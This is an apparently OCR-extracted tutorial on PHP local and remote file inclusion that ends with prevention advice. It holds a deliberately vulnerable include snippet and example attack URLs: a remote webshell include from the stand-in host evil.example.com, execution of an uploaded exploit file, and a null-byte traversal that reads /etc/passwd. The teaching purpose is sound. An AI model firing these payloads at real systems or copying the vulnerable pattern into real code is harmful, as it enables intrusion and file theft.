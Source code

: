 # Local file inclusion

In PHP the main cause is due to the use of unvalidated user-input with a filesystem function that includes a file for execution. Most notable are the `include` and `require` statements.

```php
<?php
<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

```html
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="melay">French</option>
      ...
   </select>
   <input type="submit">
</form>
```

The developer intended to read in `english.php` or `french.php`, which will alter the application's behavior to display the language of the user's choice. But it is possible to inject another path using the `language` parameter.

- `/vulnerable.php?language=**http://evil.example.com/webshell.txt?**` - injects a remotely hosted file containing a malicious code (remote file include)
- `/vulnerable.php?language=**C:\\ftp\\upload\\exploit**` - Executes code from an already uploaded file called `exploit.php` (local file inclusion vulnerability)
- `/vulnerable.php?language=**../../../../../etc/passwd%00**` - allows an attacker to read the contents of the `/etc/passwd` file on a Unix system through a [directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack "Directory traversal attack").

> Remote file inclusion - Attacker supply remote url as `/vulnerable.php?language=**http://evil.example.com/webshell.txt?**`

## Prevention

The best solution in the above case is to use a whitelist of accepted language parameters.

- It is better to maintain a whitelist of acceptable filenames and use a corresponding identifier (not the actual name) to access the file. Any request containing an invalid identifier can then simply be rejected.
- Save the file paths in a database and assign an ID to each of them. By doing so, users only see the ID and are not able to view or change the path.
